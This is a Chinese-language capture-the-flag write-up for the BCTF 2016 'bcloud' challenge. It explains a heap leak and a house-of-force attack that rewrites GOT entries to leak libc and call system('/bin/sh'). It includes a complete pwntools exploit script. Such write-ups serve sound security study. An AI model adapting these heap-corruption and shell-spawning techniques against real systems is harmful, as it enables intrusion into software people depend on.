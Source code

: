 ```yaml
---
title: bctf 2016 bcloud
categories:
  - pwn
tags: house-of-force
published: true
---
```


# Introduction

知识点：

[house_of_force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c)


**[bcloud](https://github.com/ctfs/write-ups-2016/tree/master/bctf-2016/exploit/bcloud-200)**

./bcloud: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,
for GNU/Linux 2.6.24, BuildID[sha1]=96a3843007b1e982e7fa82fbd2e1f2cc598ee04e, stripped

{% highlight bash %}

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

{% endhighlight %}

套路和 cookbook 差不多，程序逻辑相对简单。

# Leak

在 `0x80487a1` 函数处输入 name 程序 `malloc` 了一块内存，把指针直接放在了 name 局部变量后面，输入与变量大小相
同长度的字符串即可将堆地址一并打印出来。

```
p.recvline("Input your name:")
p.send("A"*0x40)
p.recvuntil("Hey "+"A"*0x40)

heap_base = u32(p.recv(0x4))-0x8
```

溢出 top chunk 在 `0x804884e` 函数处，同样变量之间紧紧相邻导致字符串边界扩展，然后使用 house of force 改写
note array 数组中的值为 got 表上的地址，先将 free 改写成 puts@plt 泄露 libc 地址。

```
payload = p32(0x4)*2
payload += p8(0)*(0x80-len(payload))
payload += p32(free_got)
payload += p32(atoi_got)
new(int("0xb0", 0x10), payload)

edit(0, p32(puts_plt))

delete(1)
```

# Exploit

后面老套路，写 free 为 system。

**[exp](https://github.com/0x3f97/pwn/blob/master/bctf-2016-bcloud/exp.py)**

```
#!/usr/bin/env python

from pwn import *

context.log_level = "debug"

elf = "./bcloud"

note_array = 0x804b120
note_len_array = 0x804b0a0
puts_plt = 0x8048520
atoi_got = 0x804b03c
free_got = 0x804b014
atoi_off = 0x2d250
system_off = 0x3ada0

p = process(elf)

def new(size, content):
    p.recvuntil("option--->>\n")
    p.sendline("1")
    p.recvline("Input the length of the note content:")
    p.sendline(str(size))
    p.recvline("Input the content:")
    p.sendline(content)

def edit(idx, content):
    p.recvuntil("option--->>\n")
    p.sendline("3")
    p.recvline("Input the id:")
    p.sendline(str(idx))
    p.recvline("Input the new content:")
    p.send(content)

def delete(idx):
    p.recvuntil("option--->>\n")
    p.sendline("4")
    p.recvuntil("Input the id:\n")
    p.sendline(str(idx))

# leak heap

p.recvline("Input your name:")
p.send("A"*0x40)
p.recvuntil("Hey "+"A"*0x40)

heap_base = u32(p.recv(0x4))-0x8
log.info("heap_base: "+hex(heap_base))

# overwrite topchunk

p.recvuntil("Org:\n")
p.send("A"*0x40)
p.recvuntil("Host:\n")
p.sendline(p32(0xffffffff))

# leak libc

off_size = note_len_array - (heap_base + 0xd8 + 0xc) - (2 * 0x4)
new(off_size, "")

payload = p32(0x4)*2
payload += p8(0)*(0x80-len(payload))
payload += p32(free_got)
payload += p32(atoi_got)
new(int("0xb0", 0x10), payload)

edit(0, p32(puts_plt))

delete(1)

p.recvuntil("Input the id:\n")
libc_base = u32(p.recv(4))-atoi_off
log.info("libc_base: "+hex(libc_base))

# write system

system_addr = libc_base+system_off
edit(0, p32(system_addr))

new(8, "/bin/sh")
delete(1)

p.interactive()
```
